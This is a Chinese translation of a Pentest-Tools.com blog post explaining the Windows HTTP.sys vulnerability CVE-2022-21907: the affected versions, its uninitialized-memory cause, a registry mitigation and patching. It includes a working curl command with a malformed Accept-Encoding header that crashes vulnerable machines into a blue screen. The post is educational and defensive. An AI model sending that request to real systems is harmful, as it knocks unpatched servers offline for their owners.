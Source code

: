 # 如何利用 HTTP.sys 远程代码执行漏洞(CVE-2022-21907)| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/exploit-http-sys-rce-vulnerability-cve-2022-21907>

模式识别是我们社区中数百名安全专家[投票选择的](https://www.linkedin.com/feed/update/urn:li:activity:6896775866714841088)[](https://www.linkedin.com/feed/update/urn:li:activity:6896775866714841088)*[技能](https://www.linkedin.com/feed/update/urn:li:activity:6896775866714841088)来培养一个有价值的信息安全职业。虽然我们有一些与生俱来的模式识别能力，但发展它们是必不可少的——这是一个实践的问题。*

*在攻击性安全领域工作给了你很多机会去做这件事，新的漏洞已经成熟，可以仔细检查了。因此，让我们继续这样做，同时发现这个 CVE 如何携带来自前一段时间的另一个漏洞的回声。*

## ***什么是 CVE-2022-21907？***

*CVE-2022-21907 (CVSSv3 9.8)是一个影响 HTTP 协议栈(HTTP.sys)的严重漏洞。*

*等等，HTTP.sys 是什么？HTTP.sys 是现代微软视窗操作系统中的一个内核设备驱动程序，负责处理微软 IIS 等服务中的 HTTP 流量。*

*对该漏洞的大部分研究表明，您可以在运行未打补丁的 HTTP.sys 驱动程序的底层机器中触发臭名昭著的蓝屏死机。*

*这听起来有点耳熟吧？是的，它是！你们中的一些人可能已经想到了 [CVE-2021-31166](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31166) ，这与我们当前的漏洞非常相似。*

*对于那些不记得 2021 年 5 月 21 日 CVE 的人来说，这是 HTTP 协议栈中的另一个漏洞，由一种释放后使用类型的错误引起，攻击者也可以“武器化”——通过适当的利用——并再次导致蓝屏死亡。*

*就该漏洞的传播范围而言，[微软指出](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907)这种 CVE 可以在 Windows 10、Windows 11、Windows Server 2019 和 Windows Server 2022 的各种版本中找到。*

*虽然 Windows 10 1809 和 Windows Server 2019 在默认情况下不容易受到攻击，但如果通过 EnableTrailerSupport 注册表值启用 HTTP 拖车支持，它们仍可能受到攻击，该注册表值可以在 HKEY*LOCAL*MACHINE \ System \ current control set \ Services \ HTTP \ Parameters 下找到。*

*该漏洞可能造成的破坏相当严重，尽管系统可能会在一次攻击后重新启动并正常运行，**后续攻击可能会导致完全拒绝服务**。*

## *CVE-2022-21907 是如何工作的？*

*根据 [Trellix](https://www.trellix.com/en-us/about/newsroom/stories/threat-labs/worming-your-way-in-through-iis-cve-2022-21907.html) 的研究人员进行的更深入的分析，使 CVE-2022-21907 打勾的是以下函数中的一个**未初始化的内存漏洞**:UlpAlllocateFactTracker&UlAllocateFastTrackerToLookaside。*

*通过不将 UlpAlllocateFactTracker 和 UlAllocateFastTrackerToLookaside 中分配的内存清零，攻击者可以将恶意负载注入未初始化的区域。*

 ***带有易受攻击的 HTTP.sys 驱动程序的 Windows 版本***

| 释放；排放；发布 | 默认情况下易受攻击 |
| --- | --- |
| Windows 10 20H2 | ✔ |
| Windows 10 21H1 | ✔ |
| Windows 10 21H2 | ✔ |
| Windows 11 | ✔ |
| Windows Server 20H2 | ✔ |
| Windows Server 2022 | ✔ |
| Windows 10 1809 | 需要启用 HTTP 尾部支持 |
| Windows Server 2019 | 需要启用 HTTP 尾部支持 |

## ***CVE-2022-21907 的业务影响***

*到目前为止，还没有发现可用于远程访问易受攻击目标的漏洞。但是，有一些公开的 PoC 漏洞可能会导致拒绝服务。*

*不想失去对任何关键系统和敏感数据的访问权的企业所有者和组织需要**保持他们的设备更新**，以消除威胁参与者造成的 DoS 风险。*

## ***如何用 CVE-2022-21907** 手动触发 BSoD*

*如果您想看看这个 CVE 的运行情况，并且有一个备用的 Windows 虚拟机，那么您可以在虚拟机的 IP 地址上使用 curl 执行以下请求。*

```
*`curl 192.168.0.164:80 -sH "Accept-encoding: 354429474810858105277502,753225473272192695969091599085146218998458873428858279498120&68&**82302744837636557755**9,2120453047251623940869443373783750655190662992171177571578371548748405709,03504570598828001819032433815484769110241925758402724193417475718971298,895259892660286842061499776,****************************267816, *, ,"`*
```

*我要感谢[nu11 security](https://github.com/nu11secur1ty)发布了第一个利用的 Python 概念证明，这有助于启动我们对这个 CVE 的研究。*

*下面是实际运行的命令:*

*要复制屏幕截图中的事件，您只需要一个易受攻击的 Windows 版本和一个使用 HTTP.sys 的服务，如 Microsoft IIS。*

*上表将帮助您确定您可用的机器是否易受攻击，或者指导您选择易受攻击的版本以供进一步研究。*

## ***如何缓解 CVE-2022-21907***

*检查完这些要求后，您现在就可以开始破解‘n’roll 了。双关语😁。*

*如果您有一台运行 Windows Server 2019 或 Windows 10 版本 1809 的机器，则有一个快速缓解方法可用。*

*如上所述，如果启用了 HTTP 拖车支持，这两个版本都很容易受到攻击，因此为了减轻攻击，可以**简单地修改 EnableTrailerSupport 注册表**。*

*为了消除漏洞，用户应该安装微软发布的[安全更新](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907#securityUpdates)来修补这个问题。*

## ***对你的“疯狂”有一个过程***

*有一种方法来满足你的好奇心总是对你有好处的。这就是为什么我鼓励你“窃取”我们发布的安全测试和道德开发指南中提供的方法。没有必要从零开始，如果你在一个给定的框架上迭代和改进，你可以取得更快的进展。真正经过你的考验！*

*很快会看到更多像这样的指南！*

*PS:我们还会不时更新它们，所以把这本书或者其他你想回头看的书做个书签吧。*